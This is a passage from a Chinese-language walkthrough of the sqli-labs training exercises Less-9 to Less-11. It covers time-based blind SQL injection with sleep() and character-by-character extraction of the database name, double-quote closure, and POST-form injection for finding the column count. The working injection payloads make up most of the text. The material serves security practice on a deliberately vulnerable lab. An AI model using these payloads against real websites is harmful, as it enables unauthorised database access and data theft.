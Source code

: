设置参数

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p8-3.png)

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p8-4.png)

过滤

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p8-5.png)

按上面的配置完成后，按个爆破即可

## 延时注入

### Sql-labs-Less-9

paylaod

```sql
?id=1' and sleep(5)--+
```

```sql
?id=1' and if(ascii(substr(database(),1,1))>115, 0, sleep(5))--+
```

### Sql-labs-Less-10

paylaod

```sql
?id=2" and sleep(3)--+
```

无回显，双引号闭合，无报错，延时注入

```sql
?id=1" and if(ascii(substr(database(),1,1))>115, 0, sleep(5))--+
```

## POST注入

### Sql-labs-Less-11

POST请求发送的数据不会直接显示在浏览器端需要用到bp或者hackbar

paylaod

```sql
uname=1' order by 2#&passwd=1&submit=Submit
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p11-2.png)

确定回显位置

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/sql-p11-3.png)
